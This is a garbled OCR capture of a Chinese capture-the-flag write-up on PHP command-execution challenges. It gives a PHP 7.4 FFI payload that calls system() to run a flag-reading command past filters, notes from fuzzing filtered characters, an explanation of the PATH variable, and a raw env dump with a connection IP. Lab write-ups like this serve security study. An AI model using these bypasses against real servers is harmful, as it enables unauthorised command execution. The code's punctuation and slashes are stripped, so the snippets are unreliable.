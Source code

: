 
phpechophp_sapi_name();exit();
下面这段代码可以建立sock连接

php
$fp=fsockopen(www.example.com, 80, $errno, $errstr, 30);
if(!$fp) {
echo$errstr($errno)br n;
} else{
$out=GET  HTTP1.1rn;
$out.=Host www.example.comrn;
$out.=Connection Closernrn;
fwrite($fp, $out);
while(!feof($fp)) {
echofread($fp, 128);
}
fclose($fp);
}

web76
web77
php7.4，基本上命令执行就告一段落了
提示说php7.4 立马想到FFI

FFI，php7.4以上才有 httpswww.php.netmanualzhffi.cdef.phphttpswww.php.cnphp-weizijiaocheng-415807.html

payload

$ffi = FFIcdef(int system(const char command););创建一个system对象
$a='readflag  1.txt';没有回显的
$ffi-system($a);通过$ffi去调用system函数
web118~linux系统变量
有过滤，fuzz 了一下

B22EZR.md.png

发现大写字母 _ @ # $ ~ ; . 等没被过滤。

以前有个类似的题，但有不一样，知识点 httpsyanmie-art.github.io20200928ctfshow%E6%9C%88%E9%A5%BC%E6%9D%AF

环境变量一般是指用来指定操作系统运行环境的一些参数，比如临时文件夹的位置和系统文件夹位置等。

我们会经常使用一些Linux下操作指令，如ls,ps等。这些命令我们在任何一个目录下都能够执行。其实这些命令不过是一个个可执行程序，一般存放在bin或usrbin目录下。你有没有思考过当我们执行这些指令的时候，操作系统是怎么找到他们的呢？

其实操作系统能够找到这些指令都要归功于，系统中的环境变量PATH。PATH环境变量中就记录了这些文件所在的路径，当我们使用以上命令的时候，PATH环境变量就把指令的路径提交给shell，Linux操作系统就是通过搜索PATH环境变量从而找到这些命令的。

可以使用env命令来查看我们linux 环境变量的设置。

如图：

B5I4rn.md.png



root@ecs-sn3-medium-2-win-20191202181542~# env
LS_COLORS=rs=0di=01;34ln=01;36mh=00pi=40;33so=01;35do=01;35bd=40;33;01cd=40;33;01or=40;31;01mi=00su=37;41sg=30;43ca=30;41tw=30;42ow=34;42st=37;44ex=01;32.tar=01;31.tgz=01;31.arc=01;31.arj=01;31.taz=01;31.lha=01;31.lz4=01;31.lzh=01;31.lzma=01;31.tlz=01;31.txz=01;31.tzo=01;31.t7z=01;31.zip=01;31.z=01;31.Z=01;31.dz=01;31.gz=01;31.lrz=01;31.lz=01;31.lzo=01;31.xz=01;31.zst=01;31.tzst=01;31.bz2=01;31.bz=01;31.tbz=01;31.tbz2=01;31.tz=01;31.deb=01;31.rpm=01;31.jar=01;31.war=01;31.ear=01;31.sar=01;31.rar=01;31.alz=01;31.ace=01;31.zoo=01;31.cpio=01;31.7z=01;31.rz=01;31.cab=01;31.wim=01;31.swm=01;31.dwm=01;31.esd=01;31.jpg=01;35.jpeg=01;35.mjpg=01;35.mjpeg=01;35.gif=01;35.bmp=01;35.pbm=01;35.pgm=01;35.ppm=01;35.tga=01;35.xbm=01;35.xpm=01;35.tif=01;35.tiff=01;35.png=01;35.svg=01;35.svgz=01;35.mng=01;35.pcx=01;35.mov=01;35.mpg=01;35.mpeg=01;35.m2v=01;35.mkv=01;35.webm=01;35.ogm=01;35.mp4=01;35.m4v=01;35.mp4v=01;35.vob=01;35.qt=01;35.nuv=01;35.wmv=01;35.asf=01;35.rm=01;35.rmvb=01;35.flc=01;35.avi=01;35.fli=01;35.flv=01;35.gl=01;35.dl=01;35.xcf=01;35.xwd=01;35.yuv=01;35.cgm=01;35.emf=01;35.ogv=01;35.ogx=01;35.aac=00;36.au=00;36.flac=00;36.m4a=00;36.mid=00;36.midi=00;36.mka=00;36.mp3=00;36.mpc=00;36.ogg=00;36.ra=00;36.wav=00;36.oga=00;36.opus=00;36.spx=00;36.xspf=00;36
SSH_CONNECTION=1.68.96.182 25650 192.168.0.196 22
LESSCLOSE=usrbinlesspipe %s %s